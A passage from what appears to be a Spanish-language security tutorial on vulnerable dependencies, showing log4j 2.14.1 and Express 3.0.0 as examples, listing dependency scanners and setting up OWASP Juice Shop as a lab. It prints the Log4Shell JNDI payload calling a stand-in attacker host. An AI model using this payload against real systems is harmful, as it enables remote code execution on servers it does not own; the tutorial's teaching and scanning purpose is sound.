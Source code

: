 ```xml
<!-- En Java con Maven -->
<dependency>
  <groupId>org.apache.logging.log4j</groupId>
  <artifactId>log4j-core</artifactId>
  <version>2.14.1</version>
</dependency>
```

> Log4j 2.14.1 fue vulnerable a **RCE (Remote Code Execution)** en 2021.
> Esto permitía que un atacante **ejecutara código en tu servidor** con una simple cadena como:

```
${jndi:ldap://attacker.com/a}
```

---

#### ❌ Ejemplo 3: Express.js sin parches

```bash
npm install express@3.0.0
```

> Express 3.x tiene vulnerabilidades de inyección y falta de validación.

---

### ⚙️ ¿Cómo se detecta esta vulnerabilidad?

#### 🔍 Escáneres automáticos:

- **npm audit** (Node.js)
- **yarn audit**
- **OWASP Dependency-Check**
- **Retire.js** (JavaScript)
- **Safety** (Python)
- **Snyk** (multi-plataforma)
- **Trivy** (Docker, Kubernetes)

---

### 🧪 Cómo preparar un laboratorio para practicar

#### ✅ Opción A: OWASP Juice Shop

Juice Shop incluye ejemplos de vulnerabilidades por componentes inseguros.

##### 🐳 Instalar con Docker:

```bash
docker pull bkimminich/juice-shop
docker run -d -p 3000:3000 bkimminich/juice-shop
```

---
